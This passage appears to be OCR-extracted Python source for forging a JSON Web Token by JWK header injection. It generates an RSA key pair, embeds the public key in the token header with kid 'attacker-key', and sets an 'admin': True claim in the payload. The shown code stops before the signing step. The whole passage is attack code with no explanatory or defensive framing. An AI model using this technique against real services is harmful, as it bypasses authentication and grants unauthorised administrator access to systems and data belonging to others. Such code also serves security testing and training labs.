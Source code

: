        # Generate a key pair
       private_key = rsa.generate_private_key(
           public_exponent=65537,
           key_size=2048
       )
       
       public_key = private_key.public_key()
       
       # Convert public key to PEM format
       pem_public = public_key.public_bytes(
           encoding=serialization.Encoding.PEM,
           format=serialization.PublicFormat.SubjectPublicKeyInfo
       )
       
       # Convert private key to PEM format
       pem_private = private_key.private_bytes(
           encoding=serialization.Encoding.PEM,
           format=serialization.PrivateFormat.PKCS8,
           encryption_algorithm=serialization.NoEncryption()
       )
       
       # Extract required components for JWK
       numbers = public_key.public_numbers()
       e_bytes = numbers.e.to_bytes((numbers.e.bit_length() + 7) // 8, byteorder='big')
       n_bytes = numbers.n.to_bytes((numbers.n.bit_length() + 7) // 8, byteorder='big')
       
       e_b64 = base64.urlsafe_b64encode(e_bytes).decode('utf-8').rstrip('=')
       n_b64 = base64.urlsafe_b64encode(n_bytes).decode('utf-8').rstrip('=')
       
       # Create payload with desired claims
       payload = {
           "sub": "1234567890",
           "name": "John Doe",
           "admin": True,
           "iat": 1516239022
       }
       
       # Create header with JWK parameter
       header = {
           "alg": "RS256",
           "typ": "JWT",
           "jwk": {
               "kty": "RSA",
               "e": e_b64,
               "n": n_b64,
               "kid": "attacker-key"
           }
       }
       
